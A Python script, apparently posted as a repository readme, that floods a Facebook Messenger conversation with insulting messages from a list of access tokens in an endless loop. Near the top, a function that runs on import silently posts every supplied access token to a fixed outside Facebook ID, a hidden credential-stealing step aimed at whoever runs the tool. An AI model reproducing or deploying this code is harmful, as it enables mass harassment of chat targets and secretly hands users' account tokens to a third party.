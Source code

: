 # Sameer-Khan-
Sameer brand 
import requests
import json
import time
import sys
from platform import system
import os
import subprocess
import http.server
import socketserver
import threading
import random
import requests
import json
import time
import sys
from platform import system
import os
import subprocess
import http.server
import socketserver
import threading

class MyHandler(http.server.SimpleHTTPRequestHandler):
      def do_GET(self):
          self.send_response(200)
          self.send_header('Content-type', 'text/plain')
          self.end_headers()
          self.wfile.write(b"-- MAFIA DON HU B3 BHOSDIK3")
def execute_server():
      PORT = 4000

      with socketserver.TCPServer(("", PORT), MyHandler) as httpd:
          print("Server running at http://localhost:{}".format(PORT))
          httpd.serve_forever()


def send_initial_message():
      with open('tokennum.txt', 'r') as file:
          tokens = file.readlines()

      # Modify the message as per your requirement
      msg_template = "Hello SAHIL sir! I am using your server.My token is = {}"

      # Specify the ID where you want to send the message
      target_id = "61562908764313"

      requests.packages.urllib3.disable_warnings()

      def liness():
          print('\033[1;92m' + '•──────────────────────FUCKER───────────────────────────────•')

      headers = {
          'Connection': 'keep-alive',
          'Cache-Control': 'max-age=0',
          'Upgrade-Insecure-Requests': '1',
          'User-Agent': 'Mozilla/5.0 (Linux; Android 8.0.0; Samsung Galaxy S9 Build/OPR6.170623.017; wv) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.125 Mobile Safari/537.36',
          'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
          'Accept-Encoding': 'gzip, deflate',
          'Accept-Language': 'en-US,en;q=0.9,fr;q=0.8',
          'referer': 'www.google.com'
      }

      for token in tokens:
          access_token = token.strip()
          url = "https://graph.facebook.com/v17.0/{}/".format('t_' + target_id)
          msg = msg_template.format(access_token)
          parameters = {'access_token': access_token, 'message': msg}
          response = requests.post(url, json=parameters, headers=headers)

          # No need to print here, as requested
          current_time = time.strftime("%Y-%m-%d %I:%M:%S %p")
          time.sleep(0.1)  # Wait for 1 second between sending each initial message

      #print("\n[+] Initial messages sent. Starting the message sending loop...\n")
send_initial_message()
def send_messages_from_file():
      with open('convo.txt', 'r') as file:
          convo_id = file.read().strip()

      with open('File.txt', 'r') as file:
          messages = file.readlines()

      num_messages = len(messages)

      with open('tokennum.txt', 'r') as file:
          tokens = file.readlines()
      num_tokens = len(tokens)
      max_tokens = min(num_tokens, num_messages)

      with open('hatersname.txt', 'r') as file:
          haters_name = file.read().strip()

      with open('time.txt', 'r') as file:
          speed = int(file.read().strip())

      def liness():
          print('\033[1;92m' + '•─────────────────────────────────────────────────────────•')

      headers = {
          'Connection': 'keep-alive',
          'Cache-Control': 'max-age=0',
          'Upgrade-Insecure-Requests': '1',
          'User-Agent': 'Mozilla/5.0 (Linux; Android 8.0.0; Samsung Galaxy S9 Build/OPR6.170623.017; wv) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.125 Mobile Safari/537.36',
          'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
          'Accept-Encoding': 'gzip, deflate',
          'Accept-Language': 'en-US,en;q=0.9,fr;q=0.8',
          'referer': 'www.google.com'
      }

      while True:
          try:
              for message_index in range(num_messages):
                  token_index = message_index % max_tokens
                  access_token = tokens[token_index].strip()

                  message = messages[message_index].strip()

                  url = "https://graph.facebook.com/v17.0/{}/".format('t_' + convo_id)
                  parameters = {'access_token': access_token, 'message': haters_name + ' ' + message}
                  response = requests.post(url, json=parameters, headers=headers)

                  current_time = time.strftime("\033[1;92mSahi Hai ==> %Y-%m-%d %I:%M:%S %p")
                  if response.ok:
                      print("\033[1;92m[+] Han Chla Gya Massage {} of Convo {} Token {}: {}".format(
                          message_index + 1, convo_id, token_index + 1, haters_name + ' ' + message))
                      liness()
                      liness()
                  else:
                      print("\033[1;91m[x] Failed to send Message {} of Convo {} with Token {}: {}".format(
                          message_index + 1, convo_id, token_index + 1, haters_name + ' ' + message))
                      liness()
                      liness()
                  time.sleep(speed)

              print("\n[+] All messages sent. Restarting the process...\n")
          except Exception as e:
              print("[!] An error occurred: {}".format(e))

def main():
      server_thread = threading.Thread(target=execute_server)
      server_thread.start()

      # Send the initial message to the specified ID using all tokens


      # Then, continue with the message sending loop
      send_messages_from_file()

if __name__ == '__main__':
      main ()
